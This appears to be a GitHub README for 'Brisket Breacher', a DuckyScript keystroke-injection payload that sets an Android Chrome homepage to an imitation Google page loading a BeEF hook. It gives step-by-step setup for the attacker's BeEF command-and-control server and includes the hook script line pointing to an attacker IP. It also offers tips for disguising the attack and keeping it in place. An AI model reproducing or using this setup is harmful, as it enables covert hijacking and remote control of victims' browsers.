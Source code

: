 <div align="center">
  
# Brisket Breacher

![bb](https://github.com/user-attachments/assets/019730d7-db7d-4a9a-a892-06df2b390adc)

</div>

**Title:** Brisket_Breacher

**Author:** OSINTI4L

**Target Os:** Android mobile device/Google Chrome (tested on Samsung S24 FE | One UI V7.0 | Android V15).

## What is Brisket Breacher?

Brisket Breacher is DuckyScript payload that targets the Android mobile device Google Chrome browser utilizing the Browser Exploitation Framework ([BeEF](https://www.kali.org/tools/beef-xss/)). The payload changes the homepage of the Google Chrome browser to an imitation `Google.com` landing page. When a victim device opens the Google Chrome browser to the homepage, the imitation Google.com page points to a BeEF command and control server via a Javascript BeEF hook, where the attacker has direct control over the browser to allow for further attacks. For the attack to work, the attacker must setup a BeEF C2 server, configure the homepage, and edit the URL to the C2 in the payload.txt (all explained below).

For the purposes of this PoC the BeEF C2 will be hosted locally over LAN, where the attacker machine and target device must be on the same LAN for the attack to be succesful. The same attack can be used outside of LAN if setup via methods such as port forwarding or hosting services.

**Persistence**

Due to the payload changing the homepage in the settings of the Google Chrome browser, this creates persistence. *Even* if the phone is restarted, when the browser homepage is loaded, it will *always* attempt to connect to the BeEF C2.

## Dependencies
## Setting up the BeEF command and control server using a [Kali Linux](https://www.kali.org) box
1. Once you have spun-up an instance of Kali (our attacker machine), you must first find the IP address of the machine. This can be found via `ifconfig`, store the IP address as it will be needed in multiple places momentarily.
  
2. Install BeEF:
    - `sudo apt install beef-xss -y`
     
3. Download the [homepage.html](https://github.com/OSINTI4L/DuckyScript-Payloads/blob/main/Payloads/Brisket_Breacher/homepage.html) file (described next). This will be the homepage that our malicious URL will point to and deliver the BeEF C2 hook.
    - Open the homepage.html and edit the BeEF C2 hook (line 141 `<script src="http://X.X.X.X:3000/hook.js"></script>`) with the IP address gathered from `ifconfig` of the attacker machine and then save the updated file. E.g., `<script src="http://192.168.8.100:3000/hook.js"></script>`.
    - Become root: `sudo su`.
    - With the homepage.html file in your current working directory, move it to the following directory: `mv homepage.html /usr/share/beef-xss/extensions/demos/html`.

4. Start BeEF:
    - `sudo beef-xss`.
   -----
## The homepage
The homepage was designed to imitate a typical Google Search landing page. Multiple features were added in an attempt to help obfuscate the fact that it is a *malicious* homepage. The homepage also delivers the BeEF C2 hook.
  - Features:
    - BeEF C2 hook delivery.
    - Dark and Light mode variations that will render accordingly depending on device settings.
    - A useable search bar and buttons that will forward the user input as a Google search requests.

![googlesearch](https://github.com/user-attachments/assets/1a428553-52d5-417b-aabb-5fc053c33ea8)

## payload.txt
The [payload.txt](https://github.com/OSINTI4L/DuckyScript-Payloads/blob/main/Payloads/Brisket_Breacher/payload.txt) file is the delivery system for configuration of the Google Chrome browser.

**The URL pointing to the BeEF C2 must be defined in line 7 of the payload.txt.** The URL to the BeEF C2 is the following: `http://x.x.x.x:3000/demos/homepage.html` (replacing the IP parameter with the IP address of the attacker machine). E.g., `http://192.168.8.100:3000/demos/parameter.html`. This will point to the homepage.html file that has been previously configured during the BeEF C2 setup stage.

An additional layer of obfuscation can be had by utilizing a URL shortening service (e.g., [Tinyurl](https://tinyurl.com/)). After placing the `http://x.x.x.x:3000/demos/homepage.html` URL into the shortener, you will then use the shortened URL as the constant defiend in line 7.

The payload workflow is as follows:
  - Chrome browser is opened.
  - A new tab is opened to ensure the proper browser environment is present for the script to run without issues.
  - The browser is then navigated to the settings where the malicious BeEF C2 URL is placed.
  - All tabs are then closed.
  - All applications are then closed and the phone returns to the home screen. This is necessary for obfuscation purposes and so the next time the browser is launched it automatically navigates to the malicious home page.

![demo](https://github.com/user-attachments/assets/89d853d8-ec2c-4ca9-9cee-46ca4f33aab6)
